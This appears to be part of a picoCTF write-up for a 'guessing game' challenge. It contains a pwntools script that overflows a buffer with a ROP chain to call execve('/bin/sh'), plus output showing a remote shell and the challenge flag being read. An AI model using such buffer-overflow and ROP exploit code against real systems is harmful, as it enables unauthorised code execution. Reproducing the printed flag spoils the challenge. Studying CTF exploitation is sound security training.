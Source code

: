 ```

    return r


def main():
    r = conn()
    r.sendlineafter(b'What number would you like to guess?\n', bytes("84",encoding="utf-8"))
    p = b'a'*120
    p+= p64(0x4163f4) #pop rax
    p+= p64(0x68732f6e69622f) #/bin/sh
    p+= p64(0x410ca3) #pop rsi
    p+= p64(0x00000000006ba0e0) #.data address
    p+=p64(0x47ff91) #mov qword ptr [rsi], rax ; ret
    p+=p64(0x4163f4) #pop rax
    p+= p64(0x3B) #59 in hex execve 
    p+= p64(0x400696)#pop rdi
    p+=p64(0x00000000006ba0e0)#.data that contain /bin/sh
    p+=p64(0x410ca3)#pop rsi
    p+=p64(0x0)
    p+=p64(0x44a6b5)#pop rdx
    p+=p64(0x0)
    p+=p64(0x40137c) #syscall
    r.sendlineafter(b'Name? ', p)
    #print(a)
    r.interactive()


if __name__ == "__main__":
    main()
```

the output is 

```
─# python3 p.py
[*] '/home/kali/hamid/viln_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to jupiter.challenges.picoctf.org on port 51462: Done
[*] Switching to interactive mode
Congrats aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf4cA

$ whoami
guessing-game-1_0
$ cat flag.txt
picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_44d502016ea374b8}$
```
